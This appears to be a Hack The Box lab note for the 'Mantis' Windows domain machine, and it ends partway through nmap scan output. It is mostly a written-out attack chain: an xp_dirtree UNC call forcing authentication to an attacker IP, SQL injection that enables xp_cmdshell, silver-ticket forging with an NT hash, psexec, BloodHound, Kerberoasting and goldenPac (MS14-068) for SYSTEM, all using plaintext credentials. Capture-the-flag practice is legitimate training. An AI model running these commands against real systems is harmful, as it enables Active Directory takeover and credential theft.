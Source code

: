 ```bash
exec master.dbo.xp_dirtree '\\10.10.14.90\share\test'
go

sp_configure 'show advanced options', '1'
RECONFIGURE

'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'whoami' —
---- Foothold
-- try silver ticket
ticketer.py -nthash 36FB932753A7B5DF1B9D66D7CD57EB0E -domain-sid S-1-5-21-4220043660-4019079961-2895681657 -domain htb.local -spn mssql/htb fakehello 

psexec.py htb.local/fakehello@htb.local -k -no-pass

-- ad
bloodhound-python -c All -u james  -p 'J@m3s_P@ssW0rd!' -d htb.local -dc htb.local -ns $tip

GetUserSPNs.py htb.local/james:'J@m3s_P@ssW0rd!' -dc-ip $tip -request

---- System

goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis

```







# Enum

## nmap scan



```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-12-18 14:08:18Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|_  Potentially risky methods: TRACE
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ssl-date: 2022-12-18T14:09:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-12-18T14:05:24
```
